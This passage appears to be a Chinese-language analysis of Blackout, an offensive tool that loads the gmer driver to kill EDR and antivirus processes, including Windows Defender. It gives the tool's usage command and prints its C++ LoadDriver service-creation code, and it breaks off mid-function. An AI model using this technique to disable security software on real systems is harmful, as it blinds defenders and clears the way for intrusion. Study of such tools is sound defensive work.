 
# 加载驱动关闭Defender(blackout)

## 项目描述

blackout项目地址：https://github.com/ZeroMemoryEx/Blackout

Blackout 是一个工具，旨在利用gmer驱动程序来禁用或杀死 EDR 和 AV，特别是那些受到反恶意软件保护的进程。这个工具需要在管理员的上下文中运行，并且可以流畅地绕过 HVCI。

需将驱动程序 `Blackout.sys` 和可执行文件放于同一路径，随后使用命令 `Blackout.exe -p <process_id>` 运行



## 项目分析

此项目主要涉及两个关键的函数，分别是`LoadDriver`和`DeviceIoControl`

首先我们来看下`LoadDriver`函数的定义，其目的是用于加载一个内核驱动。驱动的服务名称被命名为"Blackout"，随后使用`CreateServiceA` 创建一个新的内核驱动服务，并启动它

```cpp
BOOL
LoadDriver(
    char* driverPath
)
{
    SC_HANDLE hSCM, hService;
    const char* serviceName = "Blackout";

    // Open a handle to the SCM database
    hSCM = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (hSCM == NULL) {
        return (1);
    }

    // Check if the service already exists
    hService = OpenServiceA(hSCM, serviceName, SERVICE_ALL_ACCESS);
    if (hService != NULL)
    {
        printf("Service already exists.\n");

        // Start the service if it's not running
        SERVICE_STATUS serviceStatus;
        if (!QueryServiceStatus(hService, &serviceStatus))
        {
            CloseServiceHandle(hService);
            CloseServiceHandle(hSCM);
            return (1);
        }

        if (serviceStatus.dwCurrentState == SERVICE_STOPPED)
        {
            if (!StartServiceA(hService, 0, nullptr))
            {
                CloseServiceHandle(hService);
                CloseServiceHandle(hSCM);
                return (1);
            }

            printf("Starting service...\n");
        }

        CloseServiceHandle(hService);
        CloseServiceHandle(hSCM);
        return (0);
```